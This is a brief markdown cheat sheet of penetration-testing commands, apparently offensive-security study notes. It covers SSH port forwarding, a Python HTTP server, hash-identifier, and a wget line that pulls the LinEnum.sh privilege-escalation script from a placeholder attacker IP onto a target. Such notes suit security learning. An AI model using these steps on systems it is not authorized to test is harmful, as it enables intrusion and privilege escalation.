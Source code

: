 # Useful Tools

- The command below can be used if we find a service or server running locally and we have basic user access to it to forward the port to a different port to allow access to ourselves, (Port Forwarding)

```jsx
ssh -L NEWPORT:IPADDRESS:OLDPORT username
```

- The below command is how to setup an http server on a device

```php
python3 -m http.server 8080
```

- The below command is how to grab the file in question when there is an http server setup

```php
wget http://IPofATTACK:8080/LinEnum.sh
```

- The below command can be used in conjunction with a hash to help us identify the hash in question

```jsx
hash-identifier
```